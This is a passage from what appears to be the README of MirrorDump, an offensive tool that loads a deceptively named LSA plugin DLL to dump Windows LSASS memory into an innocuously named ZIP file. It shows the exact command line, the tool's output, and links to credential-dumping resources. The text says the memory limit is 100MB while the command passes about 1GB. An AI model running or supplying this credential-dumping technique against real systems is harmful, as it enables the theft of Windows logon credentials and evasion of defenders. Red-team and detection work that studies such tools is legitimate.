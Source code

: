 ### Example

Example below which will create and load an LSA plugin DLL called `LegitLSAPlugin.dll`, the in memory dump of LSASS will end up in a ZIP file called `NotLSASS.zip` and we will limit the memory used to 100MB

```
.\MirrorDump.exe -f "NotLSASS.zip" -d "LegitLSAPlugin.dll" -l 1073741824
[+] Generating new LSA DLL LegitLSAPlugin.dll targetting PID 572.....Done.
[+] LSA securiy package loaded, searching current process for duplicated LSASS handle
[+] Found duplicated LSASS process handle 0x3ec
[=] Dumping LSASS memory.........
[+] Minidump successfully saved to memory, size 88.06MB
[+] Minidump compressed and saved to NotLSASS.zip
```

## References and Special Thanks

* https://github.com/byt3bl33d3r/OffensiveDLR
* https://blog.xpnsec.com/rundll32-your-dotnet/
* https://github.com/0xd4d/dnlib
* https://github.com/3F/DllExport
* https://github.com/TsudaKageyu/minhook
* https://github.com/spazzarama/SharpDisasm
* https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package